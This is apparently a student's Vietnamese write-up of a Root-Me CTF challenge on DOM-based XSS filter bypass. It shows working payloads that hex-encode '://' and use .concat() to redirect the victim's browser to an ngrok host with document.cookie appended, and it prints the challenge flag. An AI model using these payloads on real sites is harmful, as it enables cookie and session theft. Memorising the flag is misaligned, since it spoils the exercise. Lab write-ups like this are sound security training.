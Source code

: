 # Challenge: XSS DOM Based - Filters Bypass
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 120 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass

- Như những bài XSS DOM khác cũng có 2 trang, 1 trang main và trang contact
- Ta thử nhập chuỗi bất kì, và kiểm tra mã nguồn
<p align="center"><img src="./images/7.1.png"></p>
<p align="center"><img src="./images/7.2.png"></p>

- Ta thấy input được chèn vào number trong đoạn js. Do vậy ta thử nhập chuỗi `',number=random,a='` ta thấy đã thực hiện được gán `number= random` là thành công.
<p align="center"><img src="./images/7.3.png"></p>
<p align="center"><img src="./images/7.4.png"></p>

- Ta thử với input = `',document.location='http://95fa-113-161-66-128.ngrok.io'+document.cookie,a='` khi đó ta thấy được web đã phát hiện đường dẫn chuyển hướng trang web, ta cần bybass cái này trước
<p align="center"><img src="./images/7.5.png"></p>
<p align="center"><img src="./images/7.6.png"></p>

- Thành phần quan trọng nhất của đường dẫn là `://` từ đó nhận dạn đường link, do vậy ta thử thay thế 3 kí tự này thành mã hex `\x3a\x2f\x2f`. Thử lại với input = `',document.location='http\x3a\x2f\x2f95fa-113-161-66-128.ngrok.io'+document.cookie,a='`
<p align="center"><img src="./images/7.7.png"></p>

- Ta thấy đã không còn thông báo phát hiện đường dẫn, ta thử kiểm tra mã nguồn. Tại đây ta thấy kí tự `+` bị mất. do vậy ta sẽ dùng string.concat() như bài (XSS-Reflected).
<p align="center"><img src="./images/7.8.png"></p>

- Khi đó input nhập vào là `',document.location='http\x3a\x2f\x2f95fa-113-161-66-128.ngrok.io'.concat(document.cookie),a='`
<p align="center"><img src="./images/7.9.png"></p>

- Đến đây tự cảm thấy khá là khả quan tuy nhiên không có kết quả gì, ta thử ở `console`. Ta thấy nó bị lỗi không được khai báo document.location ở var. do vậy ta sẽ đặt `hack=(document.location='http\x3a\x2f\x2f95fa-113-161-66-128.ngrok.io/?cookie='.concat(document.cookie))`. Lúc này ta sẽ thấy nó tự chuyển trang, Ta đã THÀNH CÔNG.
<p align="center"><img src="./images/7.10.png"></p>
<p align="center"><img src="./images/7.11.png"></p>

- Thực hiện gởi input = `',hack=(document.location='http\x3a\x2f\x2f95fa-113-161-66-128.ngrok.io/?cookie='.concat(document.cookie)),a='`
- Như những bài XSS DOM khác, ta lấy link khi request input lúc nãy, và gởi vào trang `contact` để cho admin request nó.
<p align="center"><img src="./images/7.12.png"></p>
- Ở trên server của PHP ta nhận được request của admin có chứa flag
<p align="center"><img src="./images/7.13.png"></p>

## Kết quả flag là `rootme{FilTERS_ByPass_DOm_BASEd_XSS}`